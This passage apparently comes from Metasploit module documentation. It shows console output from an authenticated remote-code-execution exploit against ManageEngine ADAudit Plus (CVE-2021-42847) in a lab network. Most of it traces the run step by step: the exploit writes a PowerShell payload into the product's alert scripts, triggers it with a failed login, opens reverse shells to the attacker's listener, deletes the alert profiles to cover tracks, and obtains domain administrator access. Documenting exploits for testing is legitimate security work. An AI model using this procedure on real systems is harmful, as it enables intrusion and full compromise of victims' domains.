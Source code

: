 ```
[*] Attempting to trigger the payload via an authentication attempt for domain LIES using incorrect credentials.
[*] Trigger attempt completed. Let's hope we get a shell...
[*] Powershell session session 1 opened (192.168.91.195:4444 -> 192.168.91.250:54442) at 2022-10-12 12:09:43 +0300
[*] Powershell session session 2 opened (192.168.91.195:4444 -> 192.168.91.250:54441) at 2022-10-12 12:09:43 +0300
[*] Attempting to delete alert UiYnupjyi24
[+] Successfully deleted alert UiYnupjyi24

PS C:\Program Files\ManageEngine\ADAudit Plus\bin>whoami
lies\administrator
PS C:\Program Files\ManageEngine\ADAudit Plus\bin>
```

### ManageEngine ADAudit Plus build 7005 running on Windows Server 2012 R2
```
msf exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.91.195:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using configured authentication domain alias LIES.
[*] Trying to authenticate...
[*] Found 1 configured domain(s):
[*] - LIES.local: LIES.local
[+] Successfully authenticated
[+] The target appears to be vulnerable. The target is ADAudit Plus 7005 and the endpoint for CVE-2021-42847 exists.
[*] Attempting to authenticate again in order to retrieve the required cookies.
[*] Attempting to create an alert profile
[*] Attempting to write the payload to /alert_scripts/mwlhr.ps1
[+] Successfully wrote the payload to /alert_scripts/mwlhr.ps1 in the ManageEngine ADAudit Plus install directory
[+] Successfully created alert profile dVmy0Ygz
[*] Attempting to trigger the payload via an authentication attempt for domain LIES using incorrect credentials.
[*] Trigger attempt completed. Let's hope we get a shell...
[!] Make sure to manually cleanup the mwlhr.ps1 file from /alert_scripts/ in the ManageEngine ADAudit Plus install directory
[*] Powershell session session 1 opened (192.168.91.195:4444 -> 192.168.91.250:41348) at 2022-10-12 12:59:28 +0300
[*] Powershell session session 2 opened (192.168.91.195:4444 -> 192.168.91.250:41347) at 2022-10-12 12:59:28 +0300
[*] Attempting to delete alert profile dVmy0Ygz
[+] Successfully deleted profile alert dVmy0Ygz

PS C:\Program Files\ManageEngine\ADAudit Plus\bin>whoami
lies\administrator
PS C:\Program Files\ManageEngine\ADAudit Plus\bin>
```
